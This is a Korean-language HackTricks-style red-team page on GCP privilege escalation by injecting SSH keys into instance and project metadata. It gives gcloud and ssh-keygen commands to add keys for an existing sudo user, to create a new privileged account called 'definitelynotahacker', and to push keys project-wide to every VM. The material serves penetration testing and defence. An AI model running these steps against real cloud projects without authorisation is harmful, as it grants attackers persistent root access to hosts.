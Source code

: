 # GCP - 사용자 정의 SSH 메타데이터 추가

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## 메타데이터 수정 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 획들할 경우 중대한 보안 위험**으로 이어질 수 있습니다.

### **SSH 키를 사용자 정의 메타데이터에 통합**

GCP에서 **Linux 시스템**은 종종 [Google Compute Engine을 위한 Python Linux 게스트 환경](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이 작업의 중요한 구성 요소는 [계정 데몬](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)으로, 이는 **인스턴스 메타데이터 엔드포인트를 정기적으로 확인하여 인증된 SSH 공개 키에 대한 업데이트를 찾습니다**.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 데몬이 새로운 공개 키를 찾아서 처리하고 **로컬 시스템에 통합**시킬 수 있습니다. 해당 키는 기존 사용자의 `~/.ssh/authorized_keys` 파일에 추가되거나 키의 형식에 따라 `sudo` 권한을 가진 새 사용자를 만들 수도 있습니다. 그리고 공격자는 호스트를 침해할 수 있게 됩니다.

### **기존 특권 사용자에게 SSH 키 추가**

1. **인스턴스의 기존 SSH 키 확인:**
- 인스턴스 및 해당 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래에 있으며 특히 `ssh-keys` 키 아래에 있습니다.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH 키의 형식에 주의하십시오: 사용자 이름이 콜론으로 구분된 키 앞에 옵니다.

2. **SSH 키 메타데이터용 텍스트 파일 준비:**
- 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 새 키를 추가하는 동안 기존 키를 보존하는 데 필요합니다.

3. **대상 사용자(`alice` 예시)를 위한 새 SSH 키 생성:**
- `ssh-keygen` 명령을 사용하여 새 SSH 키를 생성하고, 주석 필드(`-C`)가 대상 사용자 이름과 일치하는지 확인합니다.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 인스턴스 메타데이터에서 발견된 형식을 모방하여 새 공개 키를 `meta.txt`에 추가합니다.

4. **인스턴스의 SSH 키 메타데이터 업데이트:**
- `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **새 SSH 키를 사용하여 인스턴스에 액세스:**
- 새 키를 사용하여 SSH로 인스턴스에 연결하여 대상 사용자(`alice` 예시)의 쉘에 액세스합니다.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **새 특권 사용자 생성 및 SSH 키 추가**

흥미로운 사용자를 찾을 수 없는 경우, `sudo` 권한이 부여된 새 사용자를 만들 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 프로젝트 수준의 SSH 키 <a href="#sshing-around" id="sshing-around"></a>

클라우드 환경에서 **프로젝트 수준에서 SSH 키를 적용**하여 SSH 액세스의 범위를 넓힐 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 경우 프로젝트 내의 모든 인스턴스에 SSH 액세스를 허용합니다. 다음은 요약된 가이드입니다:

1. **프로젝트 수준에서 SSH 키 적용:**
- `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`에서 SSH 키를 프로젝트 메타데이터에 추가합니다. 이 작업을 통해 SSH 키가 프로젝트 내의 모든 VM에서 인식되도록합니다. 단, VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않은 경우입니다.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH:**
- 프로젝트 전체 SSH 키가 설정되어 있으면 프로젝트 내의 모든 인스턴스에 SSH할 수 있습니다. 프로젝트 전체 키를 차단하지 않은 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
- 인스턴스에 직접 SSH하는 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.


# 참고 자료
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
